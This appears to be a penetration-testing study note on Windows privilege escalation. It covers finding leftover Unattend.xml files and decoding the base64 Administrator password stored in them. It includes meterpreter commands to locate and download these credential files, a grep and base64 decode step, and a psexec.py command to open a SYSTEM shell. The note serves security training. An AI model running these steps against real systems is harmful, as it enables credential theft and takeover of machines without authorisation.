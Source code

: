 # Privilege Escalation: Passwords In Win Config Files

## Contents
- [Intro](#intro)
  - [Windows Configuration Files](#windows-configuration-files)
  - [Unattended Windows Setup](#unattended-windows-setup)
- [Practical: Find, Decode, Use](#practical-find-decode-use)
  - [Search & Download](#search--download)
  - [cat, grep, decode](#cat-grep-decode)
  - [Exploit](#exploit)

## Intro

### Windows Configuration Files
- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
- This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on various systems.
- This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.
- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with a Windows target legitimately.
  - The sysadmin needs to go to each individual machine and delete the configuration files.
  - If not, the administrator password could be exposed if it's included in the config file.
 
### Unattended Windows Setup
- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system confirmation information:
  - `C:\Windows\Panther\Unattend.xml`
  - `C:\Windows\Panther\Autounattend.xml`
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

## Practical: Find, Decode, Use

### Search & Download
> The assumption here is that you have a compromised Windows target, but the account you appropriated is unpriviledged. 

- You could just poke around the target machine like a normal user (which is NOT a privileged account AT ALL) to find the config file.
- Or you could search... For example, using the search module in meterpreter:
```
> search
  # by itself this will give you usage syntax

> search -f Unattend.xml
> search -f Autounattend.xml
> cd [/path/to/the/file.xml]
> download unattend.xml
```

### cat, grep, decode
```
cat unattend.xml | grep Password
```
- This should provide you with a result similar to:
```
<AutoLogon>
  <Password>
    <Value>QWRtaW5AMTIz</Value>
    <PlainText>false</PlainText>
  </Password>
  <Enabled>true</Enabled>
  <Username>administrator</Username>
</AutoLogon>
```
- If the PlainText field is "false," then you have a Base64 encoded password you need to decode.
- Use the `base64` tool to (`-d`) decode it: 
```
base64 -d password.txt > plaintextpwd.txt
# or
base64 -d password.txt
```

### Exploit
- Test out the password you just decoded with the psexec.py Python script:
```
psexec.py Administrator@[target ip]
```
- It'll prompt for password. Enter it. You should get a command shell session (`whoami: nt authority\system`)



